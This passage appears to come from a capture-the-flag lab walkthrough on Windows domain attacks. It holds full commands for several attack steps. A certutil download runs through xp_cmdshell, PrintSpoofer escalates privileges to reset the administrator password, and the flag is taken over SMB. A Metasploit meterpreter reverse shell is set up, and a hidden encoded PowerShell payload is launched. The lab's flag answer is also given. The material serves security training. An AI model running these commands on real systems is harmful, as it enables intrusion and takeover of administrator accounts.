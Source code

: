 #### **Step 3: Privilege Escalation with PrintSpoofer**
```bash
# Download PrintSpoofer:
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

# Serve from jump box:
python3 -m http.server 9000

# Download to target:
xp_cmdshell certutil -urlcache -split -f "http://172.16.7.240:9000/PrintSpoofer64.exe" c:\windows\temp\PrintSpoofer64.exe

# Reset admin password:
xp_cmdshell c:\windows\temp\PrintSpoofer64.exe -c "net user administrator Welcome1"
```

#### **Step 4: Retrieve Flag**
```bash
# Access via SMB:
proxychains smbclient -U "administrator" \\\\172.16.7.60\\C$
# Password: Welcome1
cd Users\Administrator\Desktop\
get flag.txt
```

**🎯 Answer**: `s3imp3rs0nate_cl@ssic`

---

## 🔄 **Question 8: Advanced Lateral Movement**

### **🎯 Task**: "Submit the contents of the flag.txt file on the Administrator Desktop on the MS01 host."

### **📋 Solution Steps:**

#### **Step 1: Meterpreter Setup (Alternative Method)**
```bash
# Setup web_delivery from jump box:
sudo msfconsole -q
use exploit/multi/script/web_delivery
set payload windows/x64/meterpreter/reverse_tcp
set TARGET 2
set SRVHOST 172.16.7.240
set LHOST 172.16.7.240
exploit
```

#### **Step 2: Execute via PrintSpoofer**
```sql
-- From SQL session, execute encoded payload:
xp_cmdshell c:\windows\temp\PrintSpoofer64.exe -c "powershell.exe -nop -w hidden -e [ENCODED_PAYLOAD]"
```
